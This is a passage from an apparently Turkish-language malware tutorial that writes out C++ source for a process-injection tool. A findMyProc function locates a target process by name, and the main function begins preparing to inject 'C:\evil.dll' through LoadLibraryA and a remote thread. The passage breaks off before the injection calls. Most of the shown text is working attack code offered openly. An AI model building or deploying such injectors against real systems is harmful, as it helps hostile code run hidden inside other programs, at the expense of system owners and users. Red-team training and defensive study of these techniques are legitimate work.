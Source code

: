 Şimdi, bir Red Team üyesi gibi düşünürsek, daha ilginç bir enjektör yazabiliriz. Örneğin, süreç adını bulur ve payload'umuzu ona enjekte eder.     

Hadi başlayalım!    

Basitlik açısından, [önceki](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) yazılarımdan bir enjektör alacağım ve sadece `findMyProc` fonksiyonunu ekleyeceğim:

```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
```
